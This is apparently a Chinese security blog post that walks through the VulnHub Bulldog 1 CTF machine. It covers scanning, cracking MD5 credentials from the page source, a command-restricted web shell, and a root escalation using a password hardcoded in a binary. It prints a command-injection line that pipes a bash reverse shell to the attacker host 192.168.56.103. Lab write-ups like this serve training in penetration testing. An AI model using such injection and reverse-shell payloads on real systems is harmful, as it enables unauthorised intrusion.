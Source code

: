 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/DpUDtrgWozJt43HVMNSbVw)

大余安全  

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **49** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/mmbiz_png/leMkDaXRbiboDwJS3ickCDzX18rO7YT3QKjDn2b7PFbb9VqmfDhlTtobtDvDHuAXEibFmZs7HL7W0Wq66sSl7vk2w/640?wx_fmt=png)

  

  

靶机地址：https://www.vulnhub.com/entry/bulldog-1,211/

靶机难度：初级（CTF）

靶机发布日期：2017 年 8 月 28 日

靶机描述：

Bulldog Industries recently had its website defaced and owned by the malicious German Shepherd Hack Team. Could this mean there are more vulnerabilities to exploit? Why don't you find out? :)

This is a standard Boot-to-Root. Your only goal is to get into the root directory and see the congratulatory message, how you do it is up to you!

Difficulty: Beginner/Intermediate, if you get stuck, try to figure out all the different ways you can interact with the system. That's my only hint ;)

Made by Nick Frichette (frichetten.com) Twitter: @frichette_n

I'd highly recommend running this on Virtualbox, I had some issues getting it to work in VMware. Additionally DHCP is enabled so you shouldn't have any troubles getting it onto your network. It defaults to bridged mode, but feel free to change that if you like.

请注意：对于所有这些计算机，我已经使用 VMware 运行下载的计算机。我将使用 Kali Linux 作为解决该 CTF 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/FAf3SbzREv1yEsWZqMDExrPvhOutWaLH9VkgQiaS11ia5Y3Xun2olnDwIhLlOiaMWe0UGE1uMpeHx4ma7lOjn8xpQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VtRWAxRvv7GXYcc2w086cwOxcc4libkI8ibn6rD3yBlZ7vd0fH2TaYMKicrgibMcRBbxTQ5fbCJs4AgldkHtBiaPOdA/640?wx_fmt=png)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_svg/kSiaeFj92SMyLghhftE2Ls37f4uZP8ZCOxbnsSQ1P6n6AsfOBzt5PrmdTAS3OOhPMXiabAsyKKf4QuEfoCrj9yLNlmkc5ddlpQ/640?wx_fmt=svg)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfE9VKUO6d324ENKlicvojYjn3I3OsdM2jGHhYmibiaFekxawFb17L882xSlDwtCPNR1rZ6umQwPVAg/640?wx_fmt=png)

我们在 VM 中需要确定攻击目标的 IP 地址，需要使用 nmap 获取目标 IP 地址：

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfE9VKUO6d324ENKlicvojYsABx9kSvq3Cy61ibP3Y51ficO2TPTViakOOufbk0zEg4NOMPzVGMgv18Q/640?wx_fmt=png)

我们已经找到了此次 CTF 目标计算机 IP 地址：192.168.56.140

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfE9VKUO6d324ENKlicvojYI9tA42cqB1FCBdGKeocicFWy533W0NRBmGSniaUmXfv3AgzDX77kxICw/640?wx_fmt=png)

nmap 发现开放了 23、80、8080 端口...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfE9VKUO6d324ENKlicvojYLYANFtY25qhCsAvsZAhkHzg8HdQtTE10cLMkL0M9Pwp5pJ0WfS4m8w/640?wx_fmt=png)

法斗....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfE9VKUO6d324ENKlicvojYhiauib4auia0fPDV95TSwVVVJl5boW1vFPjUvSzYf7CcjHtbXWMAvh6OA/640?wx_fmt=png)

这是说解雇了所有技术人员，因为发现被入侵了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfE9VKUO6d324ENKlicvojYaQ9CfIkQOoRHl5YyiaoB0yR2ibYaffLMQ29lVsn6krc3eiazHnw0odTeA/640?wx_fmt=png)

dirb 爆破发现了 admin 和 devURL...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfE9VKUO6d324ENKlicvojYJpRE4nEnV81PK9CWRFdM2nUdoBTicKliaogXWaBUWpvOIzdeckaW447Q/640?wx_fmt=png)

这是一个登陆页面...admin 默认密码无法登录...

sql 注入也不行...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfE9VKUO6d324ENKlicvojYlvsK1e6EfYo3UsiaDNks63EVuBuT0yydDZgWBjDr1cENXuYocJiaBm4A/640?wx_fmt=png)

意思是说 APT 利用了 Web 服务器中的一个漏洞... 他们从新服务器中完全删除 PHP... 也不会使用 PHPMyAdmin 或任何其他流行的 CMS 系统..

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfE9VKUO6d324ENKlicvojYarftoMJ6TIRFlrmtuAhIVyae040rOmDsGtZz9AibAnnQNjPdVVZ8mZw/640?wx_fmt=png)

点进去

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfE9VKUO6d324ENKlicvojYnicXZicriag4JZ8901pDj7ZtMSRBbEk7eX95icibnWK6oAsAJic9A5sNv5wQ/640?wx_fmt=png)

需要服务器验证才能使用...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfE9VKUO6d324ENKlicvojY6114d9WxhdkvDF9icry6TXgiaPZicAIWGwBQVmPuJuDns487V2dYswZ2A/640?wx_fmt=png)

在 dev 前端源码发现了 MD5 值...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfE9VKUO6d324ENKlicvojYZFia0MYiat8icMx9EqFyqSVrxSibZMEQbYcjeNw0T8J4TTvnvibxDs8oAbA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfE9VKUO6d324ENKlicvojY7NkrrGWLqzzCb7Q1seicypveNIBopA3WloxRQJYFtHQrancdXqibvJCA/640?wx_fmt=png)

等等，发现了 nick/bulldog sarah/bulldoglover 等... 这里账号已经前面就有了，邮箱地址前面就是账号...

两个账号都能登录...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfE9VKUO6d324ENKlicvojYib2WhwVE2a9vhBicxCRlBFD42LoBGnGEP7o2EcgLk8iaiaMicvdslShntqA/640?wx_fmt=png)

这里我使用了 nick/bulldog 登录... 无权编辑任何内容...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfE9VKUO6d324ENKlicvojYsrIczMTKrIpYfBlxM7nS595byxvVzj0lsIWd2iaQmusjjnDvTpaenHw/640?wx_fmt=png)

我返回 webshell 发现可以使用了... 应该是登录了问题

```
ifconfig
ls
echo
pwd
cat
rm
```

这里给了六个命令，执行别的都不行...

![](https://mmbiz.qpic.cn/mmbiz_png/FAf3SbzREv1yEsWZqMDExrPvhOutWaLH9VkgQiaS11ia5Y3Xun2olnDwIhLlOiaMWe0UGE1uMpeHx4ma7lOjn8xpQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VtRWAxRvv7GXYcc2w086cwOxcc4libkI8ibn6rD3yBlZ7vd0fH2TaYMKicrgibMcRBbxTQ5fbCJs4AgldkHtBiaPOdA/640?wx_fmt=png)

二、提权

![](https://mmbiz.qpic.cn/mmbiz_svg/kSiaeFj92SMyLghhftE2Ls37f4uZP8ZCOxbnsSQ1P6n6AsfOBzt5PrmdTAS3OOhPMXiabAsyKKf4QuEfoCrj9yLNlmkc5ddlpQ/640?wx_fmt=svg)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfE9VKUO6d324ENKlicvojYYoYhC1GTu2uJG7m2uj35vc5AsQH4B6KrBZAOibd2QYOSAvMPKXAesMg/640?wx_fmt=png)

```
ls &&echo "bash -i >& /dev/tcp/192.168.56.103/1234 0>&1" | bash
```

成功提 shell，这里很多种玩的方法，任你们玩...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfE9VKUO6d324ENKlicvojYUULSialhFldOpbXILweSqyuOLnUrevn13s1r9F0zaricbh63q7icIZeWA/640?wx_fmt=png)

发现 bulldogaadmin... 可以提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfE9VKUO6d324ENKlicvojYUKHQzCfg44fiajVFuK32jFkphBOfQGawicAEKD5QF9fziaibb9lMxGDRzw/640?wx_fmt=png)

```
find / -user bulldogadmin 2>/dev/null
```

第一眼看到了 customPermissionApp，比较显眼... 看它

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfE9VKUO6d324ENKlicvojYKhOSjFqqc4nA6XCbLvAKldorvCvib7qkQOTfEwT9zeibibhPCnCdGDQHQ/640?wx_fmt=png)

使用 exiftool 没安装... 使用了 strings 查看...

直接获得密码：

```
SUPERultimatePASSWORDyouCANTget
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfE9VKUO6d324ENKlicvojYMBFRhPeOqibia9MOic4o7zC7MAYTfHfVSQUxSlEcMUL7fbV01aRCcgV5A/640?wx_fmt=png)

可以看到可以使用 sudo... 需要 TTY...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfE9VKUO6d324ENKlicvojYJ0iakk0I8ZYCXaxPZWgBJCeiccgEibcFZunGKdCwzI7YWUvWxnaRIc0TQ/640?wx_fmt=png)

python 提到 TTY 之后，提示我可以直接提权了...

成功提到 root 权限，并查看 flag...

![](https://mmbiz.qpic.cn/mmbiz_png/leMkDaXRbiboDwJS3ickCDzX18rO7YT3QKjDn2b7PFbb9VqmfDhlTtobtDvDHuAXEibFmZs7HL7W0Wq66sSl7vk2w/640?wx_fmt=png)

  

  

比较简单的一台靶机... 加油！

由于我们已经成功得到 root 权限查看 flag，因此完成了简单靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)